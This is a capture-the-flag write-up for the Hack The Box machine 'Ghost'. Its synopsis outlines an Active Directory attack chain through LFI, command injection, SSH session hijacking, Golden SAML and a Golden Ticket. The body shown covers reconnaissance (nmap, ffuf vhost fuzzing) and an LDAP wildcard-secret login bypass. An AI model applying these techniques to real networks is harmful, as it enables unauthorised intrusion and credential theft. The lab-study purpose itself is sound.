# HTB - Ghost

**IP Address:** `10.129.69.37`  
**OS:** `Windows Server 2022 (DC01) + Linux containers (nginx / Ghost / Intranet)`  
**Difficulty:** `Insane`  
**Tags:** #ActiveDirectory #LDAP #WildcardAuth #Gitea #LFI #CommandInjection #SSHHijack #DNSUpdate #GMSA #ADFS #GoldenSAML #MSSQL #EfsPotato

---
## Synopsis

Ghost is an insane Windows Active Directory machine with a multi-host forest (`ghost.htb` / `corp.ghost.htb`). Vhost discovery on port 8008 exposes an intranet portal whose LDAP login accepts `*` as a password wildcard for `gitea_temp_principal`; a response-length oracle recovers the intranet token used on Gitea. Source from the `blog` / `intranet` repos reveals an LFI in a custom Ghost Content API parameter and a authenticated `/api-dev/scan` command injection protected by `DEV_INTRANET_KEY`. LFI against `/proc/self/environ` leaks that key, yielding a root reverse shell in the intranet container and domain credentials for `intranet_principal`. From the container, an SSH ControlMaster socket to `dev-workstation` is hijacked as `florence.ramirez`, her Kerberos TGT is stolen, and authenticated dynamic DNS updates plus Responder capture `justin.bradley`'s NetNTLMv2 hash (cracked to cleartext). WinRM as Justin yields the user flag and read access to the `adfs_gmsa$` GMSA password. As the GMSA, ADFSDump extracts the token-signing material for a Golden SAML login to `core.ghost.htb`, whose SQL debugger reaches a linked SQL Server on `PRIMARY` (`corp.ghost.htb`). Impersonating `sa`, enabling `xp_cmdshell`, and abusing SeImpersonate via EfsPotato produces SYSTEM; an IFM dump of `ntds.dit` enables a cross-domain Golden Ticket (Enterprise Admins) and Domain Admin on the forest.

---
## Skills Required

- Solid Windows / AD enumeration (`nmap`, LDAP, BloodHound concepts)
- Web vhost discovery and HTTP request replay (Burp)
- Comfort reading application source (Node / Rust)
- Kerberos on Linux (`klist`, ccache, `KRB5_CONFIG`)
- Basic MSSQL linked-server / `xp_cmdshell` abuse

## Skills Learned

- Blind LDAP password-oracle recovery with wildcard (`*`) matching
- Chaining Ghost CMS path traversal into a protected dev API RCE
- SSH ControlMaster session hijacking and ticket theft
- Authenticated dynamic DNS (`nsupdate -g`) + NTLM capture
- GMSA password read → ADFSDump → Golden SAML (ADFSpoof)
- Linked SQL Server impersonation → potato → IFM / Golden Ticket across a forest trust

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.69.37
```



TTL `127` is consistent with a Windows host one hop away.

---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.69.37 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p53,80,88,135,139,389,443,445,464,593,636,1433,2179,3268,3269,3389,5985,8008,8443,9389,49443,49664,49669,49675,49990,51490 10.129.69.37 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  




**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 53 | DNS | Simple DNS Plus; zone `ghost.htb` |
| 88 / 389 / 636 / 3268 / 3269 | Kerberos / LDAP | Domain `ghost.htb`, host `DC01.ghost.htb` |
| 445 | SMB | Signing required |
| 1433 | MSSQL | SQL Server 2022 on `DC01` / `GHOST` |
| 3389 / 5985 | RDP / WinRM | Domain Controller management surface |
| 8008 | HTTP (nginx/Ubuntu) | Ghost CMS 5.78 title “Ghost” |
| 8443 | HTTPS (nginx/Ubuntu) | Cert CN `core.ghost.htb`, redirects to `/login` |

Map the discovered names locally:

```bash
echo '10.129.69.37 ghost.htb DC01.ghost.htb DC01' | sudo tee -a /etc/hosts
```



---
## 2. Service Enumeration

### 2.1 Ghost CMS (port 8008)

Browsing `http://ghost.htb` on port 80 returns a Microsoft HTTPAPI 404, so the interesting HTTP surface is the nginx Ghost instance on **8008**. The blog is a stock Ghost 5.x site; the welcome post is authored by **Kathryn Holland** (`/author/kathryn/`), which later matches a `sysadmin` domain user.

```bash
# Browser: http://ghost.htb   → 404 (IIS/HTTPAPI)
# Browser: http://ghost.htb:8008
```






---
### 2.2 Virtual host discovery

Default responses on `:8008` share a fixed body size, so filter that size and fuzz the `Host` header. The interesting hit is `intranet` (HTTP 307), which is a separate Next.js app behind the same reverse proxy — not the Ghost blog.

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
  -u http://ghost.htb:8008 -H "Host: FUZZ.ghost.htb" -fs 7676
```



Add at least `intranet.ghost.htb` now; later also `gitea.ghost.htb`, `core.ghost.htb`, `federation.ghost.htb`, and `bitbucket.ghost.htb`.

---
### 2.3 Intranet portal enumeration

The intranet login form labels the secret field **Secret** (not Password). View-source shows a Next.js server-action multipart form with LDAP field names `ldap-username` / `ldap-secret` — the backend is clearly binding against LDAP, not a local password table.

```bash
# Browser: http://intranet.ghost.htb:8008/login
# view-source:http://intranet.ghost.htb:8008/login
```




The same LDAP wildcard trick that we expand in §2.4 also works for other accounts. Logging in as `kathryn.holland` with secret `*` reaches the News feed as a **sysadmin** and reveals the operational story of the box:

- Gitea is being migrated to Bitbucket; **domain logins to Gitea are disabled**.
- The only Gitea login is `gitea_temp_principal` + its **intranet token**.
- IT should ask sysadmins for the token; sysadmins should **read it from an LDAP attribute** (and can validate it by logging into intranet).
- Until migration finishes, intranet itself expects a **secret token** instead of the domain password.






The Users page lists IT / sysadmin / HR / principal roles. The Forum mentions `bitbucket.ghost.htb` (empty at this stage) — keep that hostname in mind; it becomes the DNS pivot later.

---
### 2.4 LDAP wildcard authentication oracle

Because the login performs an LDAP bind/filter using the submitted secret, sending `*` as the secret matches any stored value for that DN. That is enough to authenticate as `gitea_temp_principal` and read the News/Forum as that principal — but we still need the **exact** token to log into Gitea.

```bash
# Manual check in the UI: username=gitea_temp_principal, secret=*
```

